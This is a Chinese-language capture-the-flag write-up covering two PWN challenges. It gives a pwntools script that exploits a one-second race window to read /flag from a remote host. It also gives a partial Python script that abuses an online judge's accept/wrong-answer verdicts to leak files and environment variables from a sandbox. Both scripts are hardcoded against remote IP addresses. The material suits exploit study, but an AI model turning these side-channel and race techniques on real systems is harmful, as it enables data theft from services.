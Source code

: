 ## PWN
### work_pwn
有一秒钟的时间等待线程，在一秒之内改全局变量就行了  
```python
from pwn import *

p = remote("39.105.171.73", 18791)

context.log_level = 'debug'
p.sendlineafter(b">>>", b"3")
p.sendlineafter(b"###", b"1")
p.sendlineafter(b">>>", b"1")
p.sendlineafter(b"///", b"1")
p.sendlineafter(b" :", b"/flag")
p.sendlineafter(b"Leaving a message :", b"1")
while True:
    p.recv()
```

### online_judge
没有执行权限，文件系统只读  
二分可以偷东西出来（AC, WA)  
一开始不知道`/flag`是目录，痛失一血  
打了一堆东西出来，甚至把环境变量都偷了出来  
```python
import os
import sys
import requests

host, port = '47.104.129.38', 10101
base_url = f'http://{host}:{port}'
token_url = f'{base_url}/getToken'
judge_url = f'{base_url}/judge'


def getToken():
    result = requests.post(token_url).json()
    assert not result['error'], "System error"
    return result['data']['token']


token = getToken()


def judge(chall: str, src: str, language: str = 'C'):
    data = {
        'src': src,
        'language': language,
        'action': chall,
        'token': token,
    }
    result = requests.post(judge_url, json=data).json()
    return 'SUCCESS' in result['data']


l = ['etc', 'usr', 'sbin', 'lib64', 'home', 'dev', 'boot', 'root', 'sys', 'proc', 'opt', 'mnt', 'var', 'srv', 'lib',
     'run', 'media', 'bin', 'tmp', 'test_case', 'flag', 'log', 'judger', '.dockerenv', 'code']
k = ['unbuffer.so', '__init__.py', 'compiler.py', 'unbuffer.c', '.python-version', 'utils.py', 'entry']
p = ['compile.log', 'gunicorn.log', 'judge_server.log', 'judger.log']
```